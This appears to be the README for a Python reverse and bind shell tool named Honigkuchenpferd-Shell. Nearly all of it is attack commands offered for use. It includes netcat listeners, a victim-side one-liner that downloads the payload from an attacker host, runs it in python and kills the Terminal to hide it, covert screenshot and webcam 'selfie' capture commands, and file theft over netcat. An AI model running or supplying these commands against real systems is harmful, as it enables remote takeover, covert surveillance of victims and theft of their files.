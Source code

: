 ![Screenshot](picture/hacking-is-bad-mmmkay.jpg)

# Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
#reverse shell
nc -lvp 6666

#bind shell
nc <IP> 6666
```

## Victim
```
curl -s http://$IP:$PORT/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```

## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
## ffmpeg:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```

## download File
Attacker:
```
#reverse shell
nc -lvp 6667 > sus_text.txt

#bind shell
nc <IP> 6667 > sus_text.txt
```
Victim:
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] download sus_text.txt
```
